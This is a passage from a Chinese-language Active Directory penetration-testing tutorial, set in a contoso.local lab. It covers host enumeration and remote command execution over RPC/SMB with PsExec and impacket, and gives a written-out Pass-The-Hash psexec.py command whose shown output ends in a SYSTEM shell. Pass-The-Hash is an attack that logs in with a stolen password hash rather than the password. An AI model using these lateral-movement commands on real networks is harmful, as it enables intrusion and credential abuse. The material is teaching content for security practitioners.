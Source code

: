 ```
DnsComputer: ws02-7.contoso.local
DnsDomain: contoso.local
Version: 6.1.7601
OS: Windows 7 | Windows Server 2008 R2

Target: 192.168.100.10
NbComputer: WS01-10
NbDomain: CONTOSO
DnsComputer: ws01-10.contoso.local
DnsDomain: contoso.local
DnsTree: contoso.local
Version: 10.0.19041
OS: Windows 10 | Windows Server 2019 | Windows Server 2016
```

最后，你还可以用 nmap 扫描其他端口，如 135（RCP）或 139（NetBIOS会话服务）。

### <a class="reference-link" name="%E8%BF%9E%E6%8E%A5%20Windows%20%E8%AE%A1%E7%AE%97%E6%9C%BA"></a>**连接 Windows 计算机**

一旦你发现其他 Windows 机器，你可能需要连接到它们，以获取凭证或数据。

通常情况下，你需要在远程机器上执行命令来完成你的行动。有几个方法可以实现这一点。

**<a class="reference-link" name="%E7%94%A8%20RPC%20/%20SMB%20%E8%BF%9E%E6%8E%A5"></a>用 RPC / SMB 连接**

最常见的方法是使用 RPC 与 SMB。这是许多已知的工具所使用的方法，如 [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) 和 impacket 例子中的 [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)、[wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) 和其他 *exec.py。

这些工具通常使用一些 RPC 接口来执行命令，并通过 SMB 管道发送/接收命令的输入/输出。这些工具一般只需要打开 445 端口（SMB）就可以执行命令，但有些工具如 [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) 还需要 135 端口（RPC over TCP）。

此外，这些工具还可以通过使用 NT 或 LM 哈希值来执行 Pass-The-Hash 攻击。impacket 工具有一个参数可以直接使用 NT 或 LM 哈希值，而为了在 PsExec 中使用它，你必须用 mimikatz 在 Windows 会话中[注入 NT 哈希值](https://stealthbits.com/blog/passing-the-hash-with-mimikatz/)。

> psexec.py with a NT hash

```
$ psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 192.168.100.10.....
[*] Found writable share ADMIN$
[*] Uploading file WFKqIQpM.exe
[*] Opening SVCManager on 192.168.100.10.....
[*] Creating service AoRl on 192.168.100.10.....
[*] Starting service AoRl.....
[!] Press help for extra shell commands
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
b'Not enough memory resources are available to process this command.\r\n'
C:\Windows\system32&gt;whoami
nt authority\system
```


[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname